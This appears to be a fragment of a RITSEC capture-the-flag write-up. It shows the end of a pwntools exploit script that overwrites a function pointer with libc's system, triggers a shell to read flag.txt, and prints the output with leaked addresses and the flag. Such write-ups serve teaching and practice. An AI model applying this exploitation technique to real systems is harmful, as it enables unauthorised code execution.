 ```python
    edit(2, 0x16, p32(system_LIBC), 3)

    gdb.attach(p, '''
            b system
            c
            ''')
    #Execute system("/bin/sh")
    remove(3)

    p.sendline("cat flag.txt")
    p.interactive()


```

```
$ ./exploit.py
free@LIBC: 0xf7ddf750
system@LIBC: 0xf7da9940
RITSEC{g0_1s_N0T_4lw4y5_7he_w4y_2_g0}
```
